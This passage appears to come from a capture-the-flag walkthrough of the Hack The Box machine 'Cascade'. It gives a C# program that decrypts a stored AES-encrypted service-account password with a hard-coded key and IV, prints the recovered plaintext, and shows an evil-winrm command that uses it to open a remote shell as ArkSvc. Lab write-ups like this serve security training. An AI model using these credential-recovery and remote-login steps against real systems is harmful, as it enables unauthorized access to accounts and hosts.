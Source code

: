 We can now use https://dotnetfiddle.net to create a simple C# program online and decrypt ArkSvc's password.

```c#
using System;
using System.IO;
using System.Security.Cryptography;
using System.Text;

public class Program
{
	public static void Main()
	{
		try
            {
				string password = DecryptString("BQO5l5Kj9MdErXx6Q6AGOw==", "c4scadek3y654321");
				Console.WriteLine("Decrypted Pwd: {0}", password);
            }
            catch (Exception e)
            {
                Console.WriteLine("Error: {0}", e.Message);
            }
		
	}
	
	public static string DecryptString(string EncryptedString, string Key)
	{
		byte[] array = Convert.FromBase64String(EncryptedString);
		Aes aes = Aes.Create();
		aes.KeySize = 128;
		aes.BlockSize = 128;
		aes.IV = Encoding.UTF8.GetBytes("1tdyjCbY1Ix49842");
		aes.Mode = CipherMode.CBC;
		aes.Key = Encoding.UTF8.GetBytes(Key);
		using (MemoryStream stream = new MemoryStream(array))
		{
			using (CryptoStream cryptoStream = new CryptoStream(stream, aes.CreateDecryptor(), CryptoStreamMode.Read))
			{
				byte[] array2 = new byte[checked(array.Length - 1 + 1)];
				cryptoStream.Read(array2, 0, array2.Length);
				return Encoding.UTF8.GetString(array2);
			}
		}
	}
}
```

After running the program, we get the decrypted password of `w3lc0meFr31nd`. Using `evil-winrm` again, we can get a shell as ArkSvc.

```
# evil-winrm -i cascade.htb -u ArkSvc -p w3lc0meFr31nd

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\arksvc\Documents>
```
